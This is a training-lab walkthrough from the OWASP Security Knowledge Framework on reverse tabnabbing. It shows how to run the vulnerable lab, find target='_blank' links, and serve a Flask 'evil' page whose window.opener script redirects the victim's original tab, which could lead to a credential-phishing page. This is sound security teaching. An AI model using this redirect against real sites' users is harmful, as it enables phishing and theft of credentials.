



# KBID 266 - Tabnabbing

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```


Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```


 Now that the app is running let's go hacking!



## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.

```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for!


If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!



## Exploitation

### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this:

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:



Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
    window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?



A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse\_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)

